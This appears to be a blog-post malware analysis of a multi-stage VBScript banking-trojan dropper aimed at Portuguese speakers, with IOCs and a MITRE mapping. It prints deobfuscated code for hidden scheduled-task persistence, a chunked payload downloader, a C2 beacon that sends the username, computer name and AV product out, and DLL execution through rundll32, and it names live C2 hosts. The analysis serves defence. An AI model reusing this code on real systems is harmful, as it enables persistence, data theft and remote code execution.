



Hey guys, I'm back with a new article, and this time we're going to do something fun **a full malware analysis** of a real-world sample I got my hands on. This is a multi-stage VBScript Trojan dropper that specifically targets Portuguese-speaking users. We'll go through the entire kill chain, from the initial delivery URL all the way down to deobfuscating the payload and understanding its C2 communication.

I think it's important to mention that **you should NEVER run malware outside of a sandboxed environment**. If you want to follow along, make sure you're working inside an isolated VM (check out my previous article on how to set one up !).

Let's get into it !

---

## Initial Delivery - The Lure

The malware is delivered via an **Amazon S3 bucket** URL:

```
https://nevavamos.s3.us-east-2.amazonaws.com/Comprovativo_Março_12-03-2026-fVFLCFw.zip
```

Already a few red flags just from the URL alone:

- **`nevavamos`** -> suspicious bucket name, not tied to any known org
- **`Comprovativo_Março`** -> Portuguese for "Receipt_March" - classic social engineering lure pretending to be a bank receipt or payment confirmation
- **`us-east-2`** -> AWS Ohio region, but targeting Portuguese speakers ? Interesting.
- The random suffix **`fVFLCFw`** at the end is likely a campaign/victim identifier

Let's pull the HTTP headers to see what we're dealing with:

```bash
curl -sI "https://nevavamos.s3.us-east-2.amazonaws.com/Comprovativo_Mar%C3%A7o_12-03-2026-fVFLCFw.zip"
```

```
HTTP/1.1 200 OK
Date: Mon, 16 Mar 2026 22:34:03 GMT
Last-Modified: Thu, 12 Mar 2026 03:41:52 GMT
ETag: "7428829773dda5970862d4b44236a419-10"
x-amz-server-side-encryption: AES256
Accept-Ranges: bytes
Content-Type: application/zip
Content-Length: 49995765
Server: AmazonS3
```

~50MB ZIP file, uploaded on March 12th 2026. Let's download and examine it.

---

## Unpacking the ZIP

```bash
sha256: 9b1a2b025f5f9fcc13eec998aee04a640b3d2cf944b636ee3b2016e5e8167b5f
md5: 7e14bca371b09b68040ceb378b502915
```

Inside the ZIP we find **two files**:

| File | Size | Type |
|------|------|------|
| `Comprovativo_Março_12-03-2026-fVFLCFw.vbs` | 5.4 MB | VBScript (ASCII text) |
| `Comprovativo_Março_12-03-2026-fVFLCFw` | 47 MB | PE32 executable (GUI) Intel 80386 |

This is interesting. We have a **VBScript dropper** (the initial stage) and a **PE32 binary** bundled together. The binary has no file extension on purpose - probably to avoid triggering basic AV heuristics on the ZIP contents.

---

## Stage 1 - The VBScript Dropper

### Overview

The VBS file is **5.4 MB** and **10,116 lines** long. That's absolutely massive for a VBScript. Let's see why.

```bash
wc -l extracted_payload.vbs
# 10116
```

Opening the first few lines reveals what's going on:

```vbscript
hdlyxdBkoCvpAKLrsExomxHLaDuTdJGdsKRdRdMUnerXbn = UhiSmA1(122) + UhiSmA1(77) + UhiSmA1(89) + UhiSmA1(102) + ...
RSFCRKdhIooxNaEznecGcNDdOBSADSJqwZPEINsXlwrOnA = UhiSmA1(89) + UhiSmA1(121) + UhiSmA1(97) + UhiSmA1(121) + ...
WDkNVKiTqLpLFMkAgRGKvIBARvndsEFxPtDWlGWZJMhKIh = UhiSmA1(106) + UhiSmA1(79) + UhiSmA1(117) + ...
```

**96.4% of the file is junk code.** Out of 10,116 lines, only **~424 lines are meaningful**. The rest is junk code, random variable names (30-45 characters long) assigned to random string concatenations. This is a classic anti-analysis padding technique to:

1. Overwhelm analysts who open the file
2. Slow down automated sandboxes
3. Make pattern matching harder for AV engines

### The Obfuscation Layer - `UhiSmA1()`

The core obfuscation relies on a function called `UhiSmA1` which is defined near the bottom of the file (line 9036):

```vbscript
Function UhiSmA1(rpidscSPL2)
    Dim OlsTuvw3
    OlsTuvw3 = " !""#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
    If rpidscSPL2 >= 32 And rpidscSPL2 <= 126 Then
        UhiSmA1 = Mid(OlsTuvw3, rpidscSPL2 - 31, 1)
    End If
End Function
```

This is functionally equivalent to `Chr(N)` it maps ASCII codes (32-126) to their character representation through a lookup string instead of using `Chr()` directly. Smart move to avoid signature detection on `Chr()` concatenation patterns, which is a well-known VBS obfuscation indicator.

### Deobfuscation

I wrote a Python deobfuscator that resolves all `UhiSmA1()` calls and strips out the junk lines. After deobfuscation, we go from 10,116 lines down to **424 lines** of clean, readable VBScript.



---

## Stage 1 - Execution Flow (Deobfuscated)

Now that we can actually read the code, let's walk through what it does step by step.

### Step 1: Persistence via .lnk Shortcut

```vbscript
Sub IQQQDNlBYiabSN...()
    Set shell = CreateObject("WScript.Shell")
    Set fso = CreateObject("Scripting.FileSystemObject")
    appdata = shell.ExpandEnvironmentStrings("%APPDATA%")
    scriptPath = WScript.ScriptFullName
    lnkPath = appdata & "\" & fso.GetBaseName(scriptPath) & ".lnk"
    
    If Not fso.FileExists(lnkPath) Then
        Set shortcut = shell.CreateShortcut(lnkPath)
        shortcut.TargetPath = scriptPath
        shortcut.WorkingDirectory = fso.GetParentFolderName(scriptPath)
        shortcut.Save
    End If
End Sub
```

First thing it does: creates a **`.lnk` shortcut** in `%APPDATA%` pointing back to itself. This is a basic persistence mechanism.

### Step 2: Move .lnk to Startup Folder via Scheduled Task

```vbscript
Sub thCdGRXkYWmHai...()
    ' ... builds command:
    cmd = "cmd /c move /Y " & Chr(34) & lnkPath & Chr(34) & " " & Chr(34) & startupFolder & "\" & lnkName & Chr(34)
    
    Set taskService = CreateObject("Schedule.Service")
    taskService.Connect
    Set taskDef = taskService.NewTask(0)
    
    ' Trigger: 15 seconds from now
    trigger.StartBoundary = FormatDateTime(DateAdd("s", 15, Now))
    
    ' Action: cmd.exe /c move the .lnk to Startup
    action.Path = "cmd.exe"
    action.Arguments = "/c " & cmd
    
    ' Hidden execution, no timeout
    taskDef.Settings.Hidden = True
    taskDef.Settings.ExecutionTimeLimit = "PT0S"
    
    taskService.GetFolder("\").RegisterTaskDefinition "-" & Second(Now), taskDef, 6, , , 3
End Sub
```

Instead of directly moving the file (which would be suspicious), it creates a **Windows Task Scheduler job** that runs `cmd.exe` to move the `.lnk` shortcut into the **Startup folder** 15 seconds later. The task is:
- **Hidden** (`Settings.Hidden = True`)
- **No execution time limit** (`PT0S`)
- Named with just a dash and the current second (`-42`, `-17`, etc.) to blend in

This ensures the malware **survives reboots**.

### Step 3: Generate the C2 URL

```vbscript
Randomize
randomPage = Int(Rnd * 9999) & ".php"
c2URL = "http://18.230.59.64/" & randomPage
```

The C2 server is at **`http://18.230.59.64/`** -> an AWS IP in the **São Paulo (sa-east-1) region**. The malware generates a random `.php` filename for each request, likely to make URL-based blocking harder.

### Step 4: Write Stage 2 VBS to %TEMP%

This is where it gets really interesting. The script dynamically **generates a second VBS file** and writes it to `%TEMP%\{random}.vbs`. It writes it line by line, interspersed with more junk code padding:

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set writer = fso.CreateTextFile(tempPath & "\" & randomNum & ".vbs", True)

' Write junk lines between each real line
For i = 1 To 39 : writer.WriteLine randomVar & " = " & Chr(34) & randomString & Chr(34) : Next
writer.WriteLine "Set shell = CreateObject(""WScript.Shell"")"
For i = 1 To 40 : writer.WriteLine randomVar & " = " & Chr(34) & randomString & Chr(34) : Next
' ... continues for hundreds of lines
```

The stage 2 payload is itself padded with junk code at write time ! Even the second stage will be obfuscated when written to disk.

### Step 5: Schedule Stage 2 Execution

```vbscript
Function mWWtQEHQcbKJBSu...(vbsPath)
    Set taskService = CreateObject("Schedule.Service")
    taskService.Connect
    Set taskDef = taskService.NewTask(0)
    
    ' Trigger: 10 seconds from now
    trigger.StartBoundary = FormatDateTime(DateAdd("s", 10, Now))
    
    ' Action: wscript.exe with the dropped VBS
    action.Path = "wscript.exe"
    action.Arguments = """" & vbsPath & """"
    
    taskDef.Settings.Hidden = True
    taskService.GetFolder("\").RegisterTaskDefinition taskName, taskDef, 6, , , 3
End Function
```

Another **hidden scheduled task**, this time running `wscript.exe` with the stage 2 VBS as argument. Triggers 10 seconds later.

### Step 6: Wait for Signal, Then Execute Downloaded Payload

```vbscript
' Launch stage 2
Call mWWtQEHQcbKJBSu...(stage2VbsPath)

' Poll for signal folder in %TEMP%
Do While Not fso.FolderExists(shell.ExpandEnvironmentStrings("%TEMP%") & "\" & signalFolder)
    WScript.Sleep 1000
Loop

' Signal received -> stage 2 completed download, now execute the payload
Call mWWtQEHQcbKJBSu...(downloadedPayloadPath)
```

This is a classic **inter-process communication mechanism**. Stage 1 polls for a specific folder in `%TEMP%`. When stage 2 finishes downloading the payload, it creates that folder as a signal. Stage 1 detects it and schedules the downloaded payload for execution.

---

## Stage 2 - The Downloader (Generated at Runtime)

Stage 2 is the VBS file that stage 1 writes to disk. Here's what it does (reconstructed from the `WriteLine` calls):

### C2 Communication via Hidden Internet Explorer

```vbscript
' URL is stored reversed and decoded at runtime via StrReverse()
url = StrReverse("46.95.032.81//:ptth")  ' -> http://18.230.59.64/

Set ie = CreateObject("InternetExplorer.Application")
ie.Visible = False
ie.Navigate url
WScript.Sleep 5000

' Read the response from the hidden IE window
responseText = ie.Document.body.innerText
' Fallback methods if body.innerText is empty
If responseText = "" Then responseText = ie.Document.documentElement.innerText
If responseText = "" Then responseText = ie.LocationURL

ie.Stop
ie.Quit
```

Instead of using `MSXML2.XMLHTTP` or `WinHttp` directly (which are heavily monitored), the malware spawns a **hidden Internet Explorer COM object** to contact the C2 server. This is an evasion technique because:

1. IE traffic looks like normal user browsing to network monitors
2. It inherits the system's proxy settings automatically
3. It bypasses some application-level firewalls
4. The COM interface is less commonly hooked by security tools

I was able to access the C2 while it was still live and confirmed what the response looks like:



The C2 responds with a **second S3 URL** from a different bucket:

```
https://recadastraria.s3.us-east-2.amazonaws.com/AgGzpIn
```

Note the bucket name **`recadastraria`** -> Portuguese for "re-register", keeping with the banking/financial theme. This URL points to the actual **Stage 3 payload** (75MB of obfuscated VBScript, 131,575 lines !).

### Chunked Binary Download via HTTP Range Requests

```vbscript
Function downloadPayload(url, savePath)
    Set http = CreateObject("MSXML2.XMLHTTP")
    
    ' First: HEAD request to get Content-Length
    http.Open "HEAD", url, False
    http.Send
    totalSize = http.GetResponseHeader("Content-Length")
    
    ' Calculate chunks
    chunkSize = 999999  ' ~1MB chunks (randomized between 999999-1999999)
    numChunks = Int(totalSize / chunkSize)
    remainder = totalSize Mod chunkSize
    
    Set outputStream = CreateObject("ADODB.Stream")
    outputStream.Type = 1  ' Binary
    outputStream.Open
    
    ' Download in chunks using Range header
    For chunk = 0 To numChunks
        rangeStart = chunk * chunkSize
        If chunk < numChunks Then
            rangeEnd = rangeStart + chunkSize - 1
        Else
            rangeEnd = rangeStart + remainder - 1
        End If
        
        Set http = CreateObject("MSXML2.XMLHTTP")
        http.Open "GET", url, False
        http.setRequestHeader "Range", "bytes=" & rangeStart & "-" & rangeEnd
        http.Send
        
        ' Append chunk to ADODB.Stream
        If http.Status = 206 Then
            Set chunkStream = CreateObject("ADODB.Stream")
            chunkStream.Open
            chunkStream.Type = 1
            chunkStream.Write http.ResponseBody
            chunkStream.Position = 0
            outputStream.Write chunkStream.Read
            chunkStream.Close
        End If
    Next
    
    outputStream.SaveToFile savePath, 2
    outputStream.Close
    
    ' Signal to Stage 1 by creating a folder
    CreateObject("Scripting.FileSystemObject").CreateFolder _
        fso.BuildPath(fso.GetSpecialFolder(2), signalFolderName)
End Function
```

The download uses **HTTP Range requests** to download in ~1MB chunks. This is another evasion technique:
- Avoids downloading a large suspicious binary in a single request
- Each chunk is too small to trigger size-based heuristics
- The chunked pattern mimics legitimate download managers
- Some proxies/IDS won't reconstruct the full file from partial downloads

After download completes, it creates the **signal folder** in `%TEMP%` to notify stage 1.

### Call Chain Obfuscation

The stage 2 VBS also includes a randomized call chain (7-27 nested functions/subs that call each other) before reaching the actual download function. This makes static analysis of the call graph harder:

```
randomSub1() -> randomSub2() -> ... -> randomSubN() -> actualDownloadFunction()
```

---

## Stage 3 - The Final VBS Payload (75MB !)

The payload downloaded from the C2 is another **massive obfuscated VBScript** -> 131,575 lines, 75MB. Same obfuscation pattern but using `zoMcM()` instead of `UhiSmA1()`. The function names are in **Portuguese** (`inflemoUu`, `afanosaspW`, `paparicarmoHo`, `fiscalizamxN`) - further confirming Brazilian authorship.

```
SHA256: 046b7c23ec7b8649bae879c341cbeba120f26e04a89190a8f458e35702fee5e8
Size:   75 MB (131,575 lines)
Type:   ASCII text (obfuscated VBScript)
```

Key capabilities found after deobfuscating the code:

| Capability | Details |
|-----------|---------|
| **MD5 Hashing** | Full VBScript MD5 implementation (`equiparmosWT`) - used to build victim machine fingerprint for C2 |
| **AV Detection** | WMI query: `SELECT displayName FROM AntiVirusProduct` via `SecurityCenter2` |
| **OS Fingerprinting** | `SELECT Caption, Version, BuildNumber FROM Win32_OperatingSystem` |
| **Hardware Fingerprinting** | `SELECT SerialNumber FROM Win32_BIOS` + `Win32_BaseBoard` + GPU PNPDeviceID via WMI |
| **Network Check** | `Win32_NetworkAdapterConfiguration Where IPEnabled = True` |
| **Process Enumeration** | `Select * from Win32_Process Where Name = 'wscript.exe'` |
| **DLL Drop + Exec** | Downloads DLL from C2-provided URL, executes via hidden `%APPDATA%\.cmd` batch -> `rundll32.exe` |
| **HTTP Download** | Uses `WinHttp.WinHttpRequest.5.1` with chunked range requests and retry logic |
| **Startup Persistence** | `WScript.Shell.SpecialFolders("Startup")` |
| **Scheduled Tasks** | `Schedule.Service` with `PT10M` execution limit |
| **Signal Folders** | Creates `propugne.php` and `porfies.php` in `%TEMP%` |
| **Self-Cleanup** | `DeleteFile` / `DeleteFolder` to cover tracks |

This is the **actual banking trojan loader** -> it fingerprints the system, checks for AV, beacons to its own C2 (separate from Stage 2's C2), receives a DLL URL and entrypoint, then drops and executes the final payload via `rundll32.exe`. The 15-minute sleep (`WScript.Sleep 15 * 60 * 1000`) between C2 retries shows it's designed for stealth over speed.

### Stage 3 C2 Protocol - Full Reversal

Stage 3 uses a completely different C2 server from Stage 2, hosted at **`http://3.135.194.95/12_nasdfe/propugne.php`** (AWS us-east-1).

The communication is a two-phase protocol:

**Phase 1 - GET Registration Beacon**

```vbscript
' Build registration beacon
grafadoAJ = Base64Encode(deslocariascU & "|" & obcecasteskm & "|" & animososSd & "|" & esquiseY & "|" & licenciasseisNq)
tricotareisqk = "http://3.135.194.95/12_nasdfe/propugne.php" & "?dados=" & grafadoAJ
Set balirmobC = CreateObject("MSXML2.XMLHTTP")
balirmobC.Open "GET", tricotareisqk, False
balirmobC.Send
```

The `dados` parameter is a Base64-encoded pipe-delimited string containing:
1. `deslocariascU` - MD5 machine fingerprint (see below)
2. `obcecasteskm` - OS version: `Windows XX (10.0 BuildXXXXX)` from `Win32_OperatingSystem`
3. `animososSd` - AV product name from `SecurityCenter2`, or `"Nenhum."` if none
4. `esquiseY` - username (`WScript.Network.userName`)
5. `licenciasseisNq` - computer name (`WScript.Network.computerName`)

C2 response to this beacon: `"Dados salvos com sucesso!"` (Portuguese: "Data saved successfully!") - the server stores the victim's registration data.

**Phase 2 - POST Victim Provisioning (polling loop)**

```vbscript
' Poll until C2 sends DLL URL
Do
    Set rachavamosUo = CreateObject("MSXML2.XMLHTTP")
    rachavamosUo.Open "POST", embasbacarmolZ, False
    rachavamosUo.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
    rachavamosUo.Send "data=" & deslocariascU    ' just the MD5 fingerprint
    assediaveisrF = rachavamosUo.responseText

    If LCase(Trim(assediaveisrF)) = "wait" Then
        WScript.Sleep 15 * 60 * 1000    ' wait 15 minutes, retry
    Else
        responseParts = Split(assediaveisrF, "|")
        prodigaseE = Trim(responseParts(0))    ' DLL URL
        impingimoPN = Trim(responseParts(1))   ' rundll32 entrypoint name
        Exit Do
    End If
Loop
```

The server returns either:
- `"wait"` -> victim not yet targeted, sleep 15 minutes and retry
- `"<DLL_URL>|<entrypoint>"` -> proceed to download and execute the DLL

**Machine Fingerprint - `cocheirope()`**

The `data=` value posted in Phase 2 is generated by `cocheirope(userName, computerName)`:

```vbscript
Function cocheirope(userName, computerName)
    ' BIOS serial number
    For Each objItem In persuadiOI.ExecQuery("SELECT SerialNumber FROM Win32_BIOS")
        caceteemoOY = objItem.SerialNumber    ' default "N/A"
    Next
    ' Motherboard serial number
    For Each objItem In persuadiOI.ExecQuery("SELECT SerialNumber FROM Win32_BaseBoard")
        regueTT = objItem.SerialNumber        ' default "N/A"
    Next
    ' GPU PNP device ID
    For Each objItem In persuadiOI.ExecQuery("SELECT PNPDeviceID FROM Win32_VideoController")
        titubeandoNH = objItem.PNPDeviceID    ' default "N/A"
    Next
    cocheirope = equiparmosWT(userName & computerName & caceteemoOY & regueTT & titubeandoNH)
End Function
```

So the final machine fingerprint is:
```
MD5(username + computername + BIOS_SerialNumber + BaseBoard_SerialNumber + GPU_PNPDeviceID)
```

`equiparmosWT` is a full, self-contained MD5 implementation in VBScript.

**DLL Execution**

Once the DLL URL and entrypoint are received, the payload is downloaded and executed via a hidden batch file:

```
%APPDATA%\.cmd  ->  rundll32.exe <dll_path>,talentosos
```

The batch file path (`%APPDATA%\.cmd`) uses a leading dot to hide it from casual directory listings. The default entrypoint hardcoded in the script is `"talentosos"` (Portuguese for "talented"), overridden by whatever the C2 sends as `responseParts(1)`.

**C2 Live Confirmation**

At time of analysis, the C2 endpoint was still live:
- GET beacon with a synthetic fingerprint returned `"Dados salvos com sucesso!"` victim registration is still open
- POST provisioning with various synthetic machine IDs returned `"wait"` the campaign is either paused or only serves DLLs to real victim fingerprints registered via the GET phase

---

## The PE32 Binary - Legitimate SFX Decoy

Let's look at the PE32 binary that was bundled in the ZIP.

```
SHA256: 1731e53de5f48baae0963677257660df1329549e81c48b4d7db7f7f3f2329aab
File:   PE32 executable (GUI) Intel 80386, for MS Windows
Size:   47 MB
```

### What It Actually Is

After static analysis with Ghidra and `pefile`, this binary turns out to be a **legitimate, unmodified Microsoft Visual Studio 2003 self-extracting cabinet installer**, not a trojanized payload.

```
CompanyName:      Microsoft Corporation
FileDescription:  Microsoft .NET Framework 2.0 SP1 Setup
FileVersion:      2.1.21022.08
OriginalFilename: NetFx20SP1_x64.exe

FileDescription: sfxcab
InternalName:    sfxcab
OriginalFilename: sfxcab.exe
```

The version info block is **accurate**, this is a genuine `sfxcab.exe` Microsoft SFX installer from the VS 2003 era (compile timestamp: 2005-06-01).

---

## Kill Chain Summary

Here's the complete attack flow:



---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Phishing: Spearphishing Link | T1566.002 | S3 URL disguised as bank receipt |
| User Execution: Malicious File | T1204.002 | Victim executes .vbs file |
| Command and Scripting Interpreter: VBScript | T1059.005 | VBScript dropper chain |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | `cmd.exe /c move` used to relocate .lnk to Startup |
| Obfuscated Files or Information | T1027 | 96% junk code, Chr() lookup wrapper, StrReverse |
| Deobfuscate/Decode Files or Information | T1140 | `UhiSmA1()`/`zoMcM()` decode ASCII at runtime; Base64-encoded C2 beacon |
| Scheduled Task/Job | T1053.005 | Multiple hidden scheduled tasks |
| Boot or Logon Autostart: Startup Folder | T1547.001 | .lnk moved to Startup folder |
| Application Layer Protocol: Web | T1071.001 | HTTP C2 via hidden IE COM (Stage 2) and MSXML2/WinHttp (Stage 3) |
| Ingress Tool Transfer | T1105 | Chunked HTTP Range download |
| Masquerading | T1036.005 | PE bundled with fake .NET Framework version info; hidden `.cmd` batch file |
| System Binary Proxy Execution: Rundll32 | T1218.011 | DLL payload executed via `rundll32.exe` |
| System Binary Proxy Execution | T1218 | `wscript.exe`, `cmd.exe` as execution proxies |
| System Information Discovery | T1082 | WMI queries for OS version, hardware serials, GPU ID |
| Process Discovery | T1057 | WMI `Win32_Process` enumeration |
| Software Discovery: Security Software | T1518.001 | `SecurityCenter2` AV product query |
| Account Discovery | T1087 | `WScript.Network.userName` + `computerName` collection |
| System Owner/User Discovery | T1033 | BIOS serial + BaseBoard serial + GPU PNPDeviceID for victim fingerprinting |
| Indicator Removal: File Deletion | T1070.004 | Self-cleanup of dropped VBS files |

---

## Indicators of Compromise (IOCs)

### Hashes

| File | SHA256 |
|------|--------|
| ZIP Archive | `9b1a2b025f5f9fcc13eec998aee04a640b3d2cf944b636ee3b2016e5e8167b5f` |
| VBS Dropper (Stage 1) | `9c0f70306f5a894ec28d25d718e2083eab5e1ea6ec7f5d4763985b2508d9702c` |
| PE32 Binary | `1731e53de5f48baae0963677257660df1329549e81c48b4d7db7f7f3f2329aab` |
| VBS Payload (Stage 3) | `046b7c23ec7b8649bae879c341cbeba120f26e04a89190a8f458e35702fee5e8` |

### Network

| Type | Value |
|------|-------|
| Delivery URL | `https://nevavamos.s3.us-east-2.amazonaws.com/Comprovativo_Mar%C3%A7o_12-03-2026-fVFLCFw.zip` |
| S3 Bucket | `nevavamos` |
| Stage 2 C2 IP | `18.230.59.64` (AWS sa-east-1, São Paulo) |
| Stage 2 C2 URL Pattern | `http://18.230.59.64/{random_4digit}.php` |
| Stage 3 Payload URL | `https://recadastraria.s3.us-east-2.amazonaws.com/AgGzpIn` |
| S3 Bucket #2 | `recadastraria` |
| Stage 3 C2 IP | `3.135.194.95` (AWS us-east-2) |
| Stage 3 C2 Endpoint | `http://3.135.194.95/12_nasdfe/propugne.php` |
| Stage 3 Beacon Param | `GET ?dados=Base64(md5_fingerprint\|OS\|AV\|username\|computername)` |
| Stage 3 Provisioning | `POST data={MD5(user+computer+BIOS+mobo+GPU)}` -> `wait` or `DLL_URL\|entrypoint` |

### Host

| Type | Value |
|------|-------|
| Persistence | `.lnk` file in `%APPDATA%` and `Startup` folder |
| Dropped files | `%TEMP%\{second+1}.vbs` (Stage 2) |
| Scheduled tasks | Named `-{second}` and `{second+1}` |
| Signal mechanism | Folders `propugne.php` and `porfies.php` in `%TEMP%` |
| DLL payload | `%APPDATA%\{folder}\{datetime}.dll` |
| DLL execution | `%APPDATA%\.cmd` batch file -> `rundll32.exe <dll>,talentosos` (entrypoint overridable by C2) |
| COM Objects | `InternetExplorer.Application`, `MSXML2.XMLHTTP`, `ADODB.Stream`, `Schedule.Service`, `WinHttp.WinHttpRequest.5.1` |
| WMI Queries | `Win32_Process`, `Win32_OperatingSystem`, `Win32_NetworkAdapterConfiguration`, `AntiVirusProduct`, `Win32_BIOS`, `Win32_BaseBoard`, `Win32_VideoController` |

---

## Conclusion

This is a well-crafted piece of malware that's clearly targeting Brazilian or Portuguese-speaking banking customers. The multi-stage approach with inter-process signaling via filesystem polling, the use of hidden IE COM objects for C2, and the chunked download mechanism show a level of sophistication that goes beyond your average script kiddie dropper.

The obfuscation technique of padding the VBS with 96% junk code is effective but also lazy in a way, it inflates the file to 5.4MB which is unusual for a VBS and could itself be a detection indicator. The `UhiSmA1()` / `zoMcM()` Chr() wrappers are a nice touch though, avoiding direct `Chr()` concatenation patterns that most AV signatures look for.

The Stage 3 C2 protocol is notably sophisticated, a two-phase registration+provisioning model where the server maintains a victim registry keyed by a hardware-derived MD5 fingerprint. The server will only dispatch a DLL URL to fingerprints it recognizes, making it impossible to obtain the final payload without a registered victim machine. At time of writing, the C2 endpoint at `3.135.194.95` is still live and accepting beacons.

If you see any S3 links with Portuguese filenames showing up in your inbox... maybe don't click them.

Stay safe out there !


